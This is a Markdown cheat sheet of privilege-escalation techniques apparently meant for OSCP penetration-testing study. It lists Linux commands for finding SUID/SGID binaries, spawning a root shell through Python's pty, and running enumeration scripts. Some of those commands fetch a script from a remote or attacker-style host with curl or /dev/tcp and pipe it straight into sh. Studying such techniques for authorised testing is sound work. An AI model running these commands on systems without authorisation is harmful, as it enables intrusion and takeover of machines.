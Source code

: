 [windows privilege escalation](https://jok3rsecurity.wordpress.com/windows-privilege-escalation/)

[Windows Privilege Escalation Cheatsheet for OSCP - ByteFellow](https://www.bytefellow.com/windows-privilege-escalation-cheatsheet-for-oscp/)

[C0nd4/OSCP-Priv-Esc](https://github.com/C0nd4/OSCP-Priv-Esc)

Linux:
------------------------------------------------------------

Find Binaries that will execute as the owner

```bash
find / -perm -u=s -type f 2>/dev/null
```

Find binaries that will execute as the group

```bash
find / -perm -g=s -type f 2>/dev/null
```

Find sticky-bit binaries

```bash
find / -perm -1000 -type d 2>/dev/null
```

If Python is executable as root

```bash
python2.7 -c "import pty;pty.spawn('/bin/sh');"
```

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Linux Privilege Escalation Awesome Script

```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

#Local network
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh

#Output to file
linpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors
```

- [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
    #-k Enter keyword
    #-e Enter export location
    #-t Include thorough (lengthy) tests
    #-s Supply current user password to check sudo perms (INSECURE)
    #-r Enter report name
    #-h Displays this help text
```
